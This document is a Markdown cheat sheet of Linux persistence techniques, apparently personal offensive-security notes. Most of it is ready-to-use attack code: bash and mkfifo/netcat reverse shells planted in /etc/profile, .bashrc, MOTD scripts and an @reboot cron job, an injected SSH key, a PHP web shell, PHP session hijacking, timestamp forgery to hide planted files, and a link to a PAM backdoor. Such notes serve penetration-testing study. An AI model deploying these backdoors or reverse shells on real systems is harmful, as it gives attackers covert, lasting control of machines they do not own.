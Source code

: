 # Linux Persistence

For general overview of persistance that OS neutral: [[Persistence]].

## Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with touch cp the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasign

```bash
# If have sudo or permission to propagate to all users
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```



#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
web root /var/www/html
`touch shell.php` and add the below:
Or add within a file of this directory
Change the 'cmd' paramtre to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron
```bash
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
